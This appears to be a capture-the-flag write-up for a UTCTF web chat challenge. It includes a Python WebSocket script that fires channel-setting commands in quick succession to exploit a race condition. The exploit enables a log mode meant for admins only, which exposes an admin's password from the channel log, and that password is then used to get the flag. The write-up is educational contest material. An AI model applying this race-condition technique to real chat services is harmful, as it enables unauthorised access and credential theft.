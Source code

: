 In this challenge, we can exploit a race condition vulnerability. First, let's understand some of the features in the challenge:


- /join [channel]: switch to a different channel, if that channel is not set as `admin-only true`
- /create [channel]   create a new channel
- /delete [channel]   delete a channel
- /login [password]   log in as a moderator or admin.
- /set [prop] [value] Configure channels or users. This feature is the key to exploiting the vulnerability. We can set a channel to `log` mode so that joining that channel will return the log of all activity. However, the channel must be `admin-only` to enable this setting.

The plan is to create a new channel, set it to hidden so other players can't join, and then set that channel to `admin-only` to gain the ability to enable `log` mode. To access it later, we need to set `admin-only` to false. This requires executing three commands quickly to trigger the race condition.

```py
import websocket
import requests
import time
import random

# Create a session and log in
session = requests.Session()
url = 'http://challenge.utctf.live:5213/'
session.post(url + 'login', data={'username': 'a'})
cookies = session.cookies.get_dict()
ws_url = "ws://challenge.utctf.live:5213/socket"

def on_message(ws, message):
    if "/style" not in message:  # Skip style messages for better output
        print("[*]Received:", message)

randomNum = str(random.random())
def on_open(ws):
    commands = [
        f"/delete nglong05{randomNum}",
        f"/create nglong05{randomNum}",
        f"/join nglong05{randomNum}",
        "/set channel.hidden true",
        "/set channel.admin-only true",
        "/set channel.mode log",
        "/set channel.admin-only false"
    ]
    
    for cmd in commands:
        ws.send(cmd)
        time.sleep(0.02)  # race conditions

# Connect WebSocket
ws = websocket.WebSocketApp(
    ws_url,
    header=[f"Cookie: web-chat-userid={cookies.get('web-chat-userid', '')}"],
    on_message=on_message,
    on_open=on_open
)

ws.run_forever()
```
The output will be something like this:
```
[*]Received: /join 1qn6kvc8pyy0v a
[*]Received: Channel does not exist
[*]Received: Created channel 'nglong050.4822082942614303'
[*]Received: /create nglong050.4822082942614303 1qn6kvc8pyy0v a
[*]Received: Switched to channel 'nglong050.4822082942614303'
[*]Received: /join 1qn6kvc8pyy0v a
[*]Received: Updated property 'channel.hidden'
[*]Received: //channels general log mod-info
[*]Received: Updated property 'channel.admin-only'
[*]Received: Updated property 'channel.mode'
```

![alt text](image/image-3.png)

Notice that even though the channel is set to admin-only, we can still join it because we set it to false immediately after.

Now, we can view the log of the admin login along with their password.

Use that password to log in as an admin and retrieve the flag.

![alt text](image/image-4.png)